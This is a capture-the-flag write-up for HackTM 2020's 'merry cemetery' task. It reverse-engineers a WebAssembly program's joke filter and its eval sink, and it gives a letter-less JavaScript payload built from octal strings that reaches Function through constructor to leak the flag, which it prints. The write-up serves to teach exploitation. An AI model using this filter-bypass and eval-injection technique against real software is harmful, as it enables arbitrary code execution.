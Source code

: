# merry cemetery - HackTM 2020 Quals  
## Introduction

merry cemetery is a pwn task.

It is a web-assembly task that can be run with `node merry_cemetery.js`.

The goal of this task is to obtain the content of a JavaScript variable,
`aaaa`.  
```  
var aaaa = "HackTM{XXXXXXXXXXXXXXXXXXXXX-real-flag-on-remote-server}";  
```

## Nobody likes web assembly

In order to understand what the web assembly file does, a tool has been used
to  
convert `wasm` to rust. This tool was found from a writeup of 36C3's web  
assembly reverse task.

The main function is exported, which makes it possible to go to the main loop  
quite easily.

The main loop first reads the user's input by calling `func_60`:  
```rust  
var_17 = func_60(); // read  
var_18 = (var_17 << 24 >>s 24) - 36;  
```

If the user's input is a `+`, it reads a joke and increments the local
variable  
at offset 24:  
```rust  
if var_18 == 7 { // +  
   var_2 = load_8s<i32>(var_14 + 24);  
   var_19 = load_8s<i32>(var_14 + 24);  
   var_3 = func_62(var_19);

   if var_3 == 1 {  
       var_20 = load_8s<i32>(var_14 + 24);  
       var_7 = var_20 + 1 << 24 >>s 24;  
       store_8<i32>(var_14 + 24, var_7) // var24++

       var_8 = load_8s<i32>(var_14 + 24);  
       var_9 = load_8s<i32>(var_14 + 24) & 255;  
       if var_9 == 255 {  
           store<i32>(var_14 + 24, -1)  
       }  
   }  
}  
```

If the user's input is `$`, it will first check if the local variable at
offset  
24 is 255. (i.e. if 255 jokes have been submitted)

If it is, it will take a different path than the initial error:  
```rust  
if var_18 == 0 { // $  
   var_23 = load_8s<i32>(var_14 + 24) & 255;  
   if var_23 == 255 { // var24 == 255 ?  
       var_24 = var_14 + 25;  
       func_165(2, var_24, 1);  
       var_25 = load_8s<i32>(var_14 + 25) & 255;  
       func_65(var_25);  
       env._exit(0);  
   }  
   else { // error  
       var_26 = func_57(23724, 15016);  
       var_27 = var_26;  
       var_28 = 331;  
       indirect_call((var_28 & 511) + 0)(var_27);  
       env._exit(0);  
   }  
   return 0;  
}  
```

The program does behave differently after adding 255 jokes. The reward is to
add  
a longer joke to one's epitaph.

The joke is added by `func_65`:  
```rust  
var_3 = func_57(23724, 14848); // do to your kindness...  
var_4 = 331;  
indirect_call((var_4 & 511) + 0)(var_3);

var_5 = func_57(23724, 14970); // ++ Insert joke  
var_6 = 331;  
indirect_call((var_6 & 511) + 0)(var_5);

var_7 = func_166(0, 18144, arg_0); // probably a read  
var_8 = func_64(var_7) != 0; // check joke  
if var_8 {  
   env._emscripten_run_script(18176);  
   global_10 = var_1;  
   return;  
}

var_9 = func_57(23724, 14988); // Sorry quality jokes only  
var_10 = 331;  
indirect_call((var_10 & 511) + 0)(var_9);  
global_10 = var_1;  
return;  
```

This function reads a joke, and calls `func_64` on it. If the function returns  
0, the program will not consider the joke to be a "quality joke" and will
exit.

```rust  
var_13 = 0;  
while true {  
   if var_13 ~~(18144 + var_13); // char[i]  
   var_16 = var_15 << 24 >>s 24 >=s 98;  
   if var_16 {  
       var_1 = var_13;  
       var_2 = 18144 + var_13;  
       var_3 = load_8s<i32>(18144 + var_13);  
       var_17 = load_8s<i32>(18144 + var_13);  
       var_4 = var_17 << 24 >>s 24;  
       var_5 = var_17 << 24 >>s 24 <=s 122; // 'b' <= char[i] <= 'z'  
       if var_5 {  
           var_14 = 7; // bad  
           break;  
       }  
   }~~

   var_18 = load_8s<i32>(18144 + var_13); // char[i]  
   var_19 = var_18 << 24 >>s 24 >=s 65;  
   if var_19 {  
       var_6 = var_13;  
       var_7 = 18144 + var_13;  
       var_8 = load_8s<i32>(18144 + var_13);  
       var_20 = load_8s<i32>(18144 + var_13);  
       var_9 = var_20 << 24 >>s 24;  
       var_10 = var_20 << 24 >>s 24 <=s 90; // 'A' <= char[i] <= 'Z'  
       if var_10 {  
           var_14 = 7; // bad  
           break;  
       }  
   }  
   var_13 += 1;  
}

if var_14 == 7 {  
   global_10 = var_11;  
   return 0;  
}  
if var_14 == 9 {  
   global_10 = var_11;  
   return 1;  
}  
return 0;  
```

This function checks each character of the input. If any of them is in the
range  
`[b-zA-Z]`, it will not be considered a quality joke.

This can be confirmed by sending a joke that only contains `a`. What a quality  
joke:  
```  
exception thrown: ReferenceError:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
is not defined,ReferenceError:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
is not defined  
   at eval (eval at _emscripten_run_script
(/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry
cemetery/merry_cemetery.js:4941:7), <anonymous>:1:1)  
   at _emscripten_run_script (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry
cemetery/merry_cemetery.js:4941:7)  
   at _gravestone (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry
cemetery/merry_cemetery.js:6420:3)  
   at _main (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry
cemetery/merry_cemetery.js:6506:3)  
   at Object.asm._main (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry
cemetery/merry_cemetery.js:57690:21)  
   at Object.callMain (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry
cemetery/merry_cemetery.js:58006:30)  
   at doRun (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry
cemetery/merry_cemetery.js:58064:60)  
   at run (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry
cemetery/merry_cemetery.js:58078:5)  
   at Object.<anonymous> (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry
cemetery/merry_cemetery.js:58201:1)  
   at Module._compile (internal/modules/cjs/loader.js:1151:30)  
```

## character-less eval

The primitive shown above will evaluate JavaScript code that contains no  
character, excepts `a`.

The `jsfuck` obfuscator cannot be used, because the payload is limited in
size.

It is possible to define strings in JavaScript using the octal notation.
(`\141`  
for `a`). Variables that start with `_` and `$` can be used to store  
information.

The idea is to use `Function` to create a new lambda function and call it  
immediately:  
```js  
> Function("console.log(123)")()  
123  
```

`Function` is any function's constructor. It can be accessed with:  
```js  
> ''.constructor.constructor  
[Function: Function]  
> ''.constructor.constructor("console.log(123)")()  
123  
```

The following payload (without comments) was used to throw an exception that  
contains the flag. It contains the tricks presented prior:  
```js  
_=aaaa; // broaden scope of aaaa  
$='\143\157\156\163\164\162\165\143\164\157\162'; // "constructor"  
''[$][$]('\164\150\162\157\167 _')() // "throw _"  
```

```  
Due to your kindness and hard work, the locals would like to reward you by
allowing you to decorate your own gravestone.  
++ Insert Joke:

_=aaaa;  
$='\143\157\156\163\164\162\165\143\164\157\162';  
''[$][$]('\164\150\162\157\167 _')()

exception thrown: HackTM{m4y_y0ur_d4ys_b3_m3rry_4nd_br1ght}  
```

**Flag**: `HackTM{m4y_y0ur_d4ys_b3_m3rry_4nd_br1ght}`

Original writeup
(https://github.com/TFNS/writeups/blob/master/2020-02-01-HackTM/merry%20cemetery/README.md).